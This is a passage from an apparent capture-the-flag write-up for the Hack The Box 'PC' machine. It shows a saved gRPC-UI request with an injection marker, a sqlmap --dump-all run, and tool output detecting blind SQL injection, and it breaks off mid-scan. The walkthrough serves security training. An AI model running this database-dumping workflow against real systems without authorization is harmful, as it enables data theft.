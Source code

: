 Now I can run sqlmap on this request I think so I could find →

But before running this with sqlmap I have to specify the parameter to target to with putting asterisk(*) in its value like this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ cat sql.txt 
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:41973
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: qlIFAY_UQ_LC5Bqftu2WL_bwupNQeV25BmyzrenyM0E
X-Requested-With: XMLHttpRequest
Content-Length: 235
Origin: http://127.0.0.1:41973
Connection: close
Referer: http://127.0.0.1:41973/
Cookie: _grpcui_csrf_token=qlIFAY_UQ_LC5Bqftu2WL_bwupNQeV25BmyzrenyM0E
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"timeout_seconds":10,"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoic3Ryb25nc2hpdjgiLCJleHAiOjE2OTU0MDc3NzZ9.Ncl10Z9UQJLfvAgYTG6gy3nDVFzEOr33VKI7ROJr09I"}],"data":[{"id":"1*"}]}
```
{: .nolineno}

Now lets run this sqlmap with —dump-all flag →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ sqlmap -r sql.txt --dump-all
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.8#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   'https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:52:53 /2023-09-22/

[21:52:53] [INFO] parsing HTTP request from 'sql.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '_grpcui_csrf_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[21:53:03] [INFO] testing connection to the target URL
[21:53:04] [INFO] testing if the target URL content is stable
[21:53:04] [INFO] target URL content is stable
[21:53:04] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[21:53:04] [INFO] (custom) POST parameter 'JSON #1*' appears to be dynamic
[21:53:05] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[21:53:05] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[21:53:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:53:06] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
```